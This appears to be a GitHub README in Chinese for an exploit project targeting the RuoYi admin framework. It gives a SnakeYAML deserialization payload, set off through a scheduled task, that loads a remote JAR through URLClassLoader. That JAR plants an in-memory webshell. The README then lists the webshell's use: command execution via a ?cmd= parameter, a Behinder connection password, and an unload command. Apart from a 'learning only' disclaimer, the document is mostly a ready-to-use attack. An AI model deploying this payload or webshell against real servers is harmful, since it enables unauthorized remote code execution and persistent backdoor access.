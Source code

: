 # yaml-payload-for-ruoyi
**分析文章**

https://xz.aliyun.com/t/10651

**注入方法：**  
把jar放到系统可以访问的地方，在定时任务创建新的定时任务，再立即执行一次即可
```java
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["you_url_of_jar"]]]]')
```
![image-20211127160033485](http://image.lz2y.top/image-20211127160033485.png)

若依 snakeyaml 反序列化漏洞注入内存马

**RuoYi**  
1. 直接执行命令：?cmd=whoami
2. 连接冰蝎：/login?cmd=1（cmd不为空即可），密码为rebeyond，使用冰蝎正常连接即可
3. 卸载内存马：?cmd=delete

![image](https://user-images.githubusercontent.com/55266300/140618949-9973ce81-9308-4bc3-9dd7-286c7281ce33.png)
**RuoYi Vue**  

1. 直接执行命令：`/dev-api/?cmd=whoami`
2. 连接冰蝎：暂不支持
3. 卸载内存马：`/dev-api/?cmd=delete`



**项目仅供学习使用，任何未授权检测造成的直接或者间接的后果及损失，均由使用者本人负责**

